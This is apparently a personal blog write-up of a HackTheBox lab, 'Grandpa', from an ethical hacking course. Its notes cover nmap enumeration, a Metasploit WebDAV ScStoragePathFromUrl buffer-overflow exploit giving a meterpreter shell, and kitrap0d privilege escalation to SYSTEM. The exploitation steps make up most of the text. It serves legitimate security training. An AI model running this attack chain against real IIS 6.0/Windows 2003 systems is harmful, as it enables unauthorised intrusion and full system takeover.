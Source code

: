 ```yaml
---
layout:     post
title:      TCM PEH Hacking Grandpa Notes
date:       2021-03-24
summary:    TheCyberMentor's Practical Ethical Hacking course mid-course capstone, hacking HackTheBox Grandpa
categories: certs
thumbnail: cogs
tags:
 - certs
 - pwned
---
```

<h2 class="code-line" data-line-start=0 data-line-end=1 ><a id="HTB_Grandpa_0"></a>HTB Grandpa</h2>
<p class="has-line-data" data-line-start="1" data-line-end="2">These are getting old</p>
<p class="has-line-data" data-line-start="3" data-line-end="13">nmap -A -T4 -p- 10.10.10.14<br>
Noted port 80 open<br>
Noted port 80 IIS 6.0<br>
Noted potentially risky methods (trace,put,propfind,search,lock,unlock,delete,move,mkcol)<br>
Noted Windows Server 2003 OS guess<br>
Googled IIS 6.0 exploit<br>
Found exploit-db WebDAV ScStoragePathFromUrl exploit remote buffer overflow<br>
Read through exploit, looks like it might work<br>
searchsploit ScStoragePathFromUrl<br>
Noted modules exist</p>
<hr>
<p class="has-line-data" data-line-start="14" data-line-end="36">msfconsole<br>
seach ScStoragePathFromUrl<br>
Noted results<br>
use 0<br>
options<br>
set rhosts tun0<br>
show targets<br>
exploit<br>
Noted no session created<br>
exploit<br>
Noted no session created<br>
set lport 5555<br>
exploit<br>
Noted no session created<br>
exploit<br>
Noted meterpreter shell (wtf)<br>
getuid<br>
Access denied<br>
sysinfo<br>
ps<br>
migrate 1788<br>
Noted migration successful, am now Network Service</p>
<hr>
<p class="has-line-data" data-line-start="37" data-line-end="44">background<br>
search suggester<br>
use 0<br>
options<br>
set session 1<br>
run<br>
Noted several exploits appears to be vulnerable</p>
<hr>
<p class="has-line-data" data-line-start="45" data-line-end="56">use exploit/windows/local/ms10_015_kitrap0d<br>
options<br>
set session 1<br>
exploit<br>
Noted failed, on wrong IP still because lhost option not yet present<br>
set lhost tun0<br>
exploit<br>
Noted meterpreter shell<br>
sysinfo<br>
getuid<br>
Noted am Authority System</p>